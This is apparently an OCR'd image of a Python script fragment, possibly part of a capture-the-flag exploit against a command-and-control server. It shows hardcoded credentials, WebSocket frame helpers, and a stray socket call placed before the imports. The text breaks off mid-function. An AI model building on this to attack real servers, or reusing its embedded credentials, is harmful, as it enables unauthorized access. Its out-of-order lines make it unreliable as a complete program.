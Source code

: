 ```python

socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))

import socket
import hashlib
import json
import os
import time

# ========== Config ==========
HOST = "127.0.0.1"
PORT = 40056
USER = "ilya"
PASSWORD = "CobaltStr1keSuckz!"

def build_websocket_frame(payload: str) -> bytes:
    payload_bytes = payload.encode("utf-8")
    frame = bytearray()
    frame.append(0x81)  # FIN=1, text frame

    length = len(payload_bytes)
    if length <= 125:
        frame.append(0x80 | length)
    elif length <= 65535:
        frame.append(0x80 | 126)
        frame.extend(length.to_bytes(2, byteorder='big'))
    else:
        frame.append(0x80 | 127)
        frame.extend(length.to_bytes(8, byteorder='big'))

    masking_key = os.urandom(4)
    frame.extend(masking_key)

    masked = bytearray(b ^ masking_key[i % 4] for i, b in enumerate(payload_bytes))
    frame.extend(masked)

    return bytes(frame)

def parse_websocket_frame(frame: bytes) -> bytes:
    if not frame:
        raise ValueError("No data received")
    print(f"[DEBUG] Raw frame header: {frame[:8].hex()}")

    fin = (frame[0] & 0x80) >> 7
    opcode = frame[0] & 0x0F

    if opcode == 0x8:
        raise ValueError("Received close frame")
    if opcode not in (0x1, 0x2):
        raise ValueError(f"Unsupported opcode: {opcode:#x}")

    is_text = (opcode == 0x1)

    length = frame[1] & 0x7F
    index = 2
    if length == 126:
        length = int.from_bytes(frame[2:4], 'big')
        index = 4
    elif length == 127:
        length = int.from_bytes(frame[2:10], 'big')
        index = 10

```